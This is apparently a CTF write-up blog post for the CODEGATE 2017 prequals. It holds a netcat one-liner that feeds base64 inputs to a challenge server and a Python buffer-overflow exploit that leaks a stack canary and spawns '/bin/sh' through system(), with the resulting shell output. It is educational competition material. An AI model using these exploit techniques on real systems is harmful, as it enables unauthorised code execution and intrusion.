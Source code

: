 ```yaml
---
layout : post
title : CODEGATE 2017 prequals writeup
---
```


## BabyMISC

```

$ (echo TjBfbTRuX2M0bDFfYWc0aW5fWTNzdDNyZDR5OigA; echo aa; echo aaa; echo 'head *' | base64 ; cat) | nc 110.10.212.138 19091
[*] Ok, Let's Start. Input the write string on each stage!:)
[*] -- STAGE 01 ----------
[+] KEY : H??x?H)?H?H???L??H)??1??D
[+] Input > 
[*] USER : N0_m4n_c4l1_ag4in_Y3st3rd4y:(
[+] -- NEXT STAGE! ----------
[*] -- STAGE 02 ----------
[+] Input 1 
[+] Input 2 
[+] -- NEXT STAGE! ----------
[*] -- STAGE 03 ----------
[+] Ok, It's easy task to you, isn't it? :)
[+] So I will give a chance to execute one command! :)
[*] Input > 
#                                                               echo -n aGVhZCAqCg== | base64 -d | sh
FLAG{Nav3r_L3t_y0ur_L3ft_h4nd_kn0w_wh4t_y0ur_r1ghT_h4nd5_H4ck1ng}

```


## Babypwn

{% highlight python %}

from No___Op import *

if len(sys.argv) > 1:
    target = '110.10.212.130:8889'

else:
    target = 'localhost:8181'

c = Pwning( target )

plt_system = 0x08048620 #+ 0x10

c.sendall('1')
time.sleep(1)
c.sendall('a' * 0x28)
c.read_until('a' * 28 + '\n')
canary = u32('\x00' + c.recv(3))

succ('canary: ' + hex(canary))

c.sendall('1')
time.sleep(1)
c.sendall('a' * (0x28 + 4 + 4 + 3))
c.read_until('a' * (0x28 + 4 + 4 + 3) + '\n')
addr_stack = u32(c.recv(4)) - 0x174 # buffer

succ('stack_addr: ' + hex(addr_stack))

payload  = ''
payload += 'a' * (40 - len(payload))
payload += p32(canary)
payload += 'a' * 12
payload += p32(plt_system)
payload += 'gomi'
payload += p32(addr_stack + len(payload) + 4)
payload += '/bin/sh <&4 >&4 2>&4;'
payload += 'c' * (0x64 - len(payload))

c.sendall('1')
time.sleep(0.5)
c.sendall(payload)
time.sleep(0.5)
c.sendall('3')

c.shell()

{% endhighlight %}

{% highlight sh %}

$ python exp.py r
[*]Connecting "110.10.212.130:8889"...
[+]Connection success!
[+]canary: 0xcc781900
[+]stack_addr: 0xffca6f34
*** 4ll y0u n33d i5 5HELL! ***


Time Out!
ls
babypwn
flag

cat flag
FLAG{Good_Job~!Y0u_@re_Very__G@@d!!!!!!^.^}
exit
*** Connection closed by remote host ***

{% endhighlight %}
